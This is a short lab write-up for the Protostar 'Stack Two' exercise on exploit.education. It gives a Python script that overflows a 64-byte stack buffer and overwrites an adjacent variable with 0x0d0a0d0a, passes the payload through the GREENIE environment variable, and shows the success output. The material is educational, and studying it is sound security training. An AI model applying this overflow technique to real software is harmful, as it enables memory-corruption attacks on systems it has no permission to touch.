

#Protostar - Stack Two
https://exploit.education/protostar/stack-two/

This level is the same as Stack Two, except that we have to provide our payload in an environment vairable and change the modified variable to 0x0d0a0d0a.
To set the GREENIE environment variable on the machine, we can either:
• GREENIE=<payload>
• or os.environ within python - os.environ['GREENIE'] = payload
1) Write exploit
First, we write 64 bytes of junk to fill the buffer variable.
After that, we write 0x0d0a0d0a in little endian format to the stack to overwrite the modified variable.
#!/usr/bin/python
# exploit.education - Stack Two
import os
import struct
payload = "A"*64
payload += struct.pack('<I', 0x0d0a0d0a)
print payload
2) Win
Set the GREENIE environment variable on the system and run stack2.
Those backticks - ` - execute the code within them (executing our exploit code and printing out our payload)..
$ GREENIE=`python /tmp/stack2.py`
$ ./stack2
you have correctly modified the variable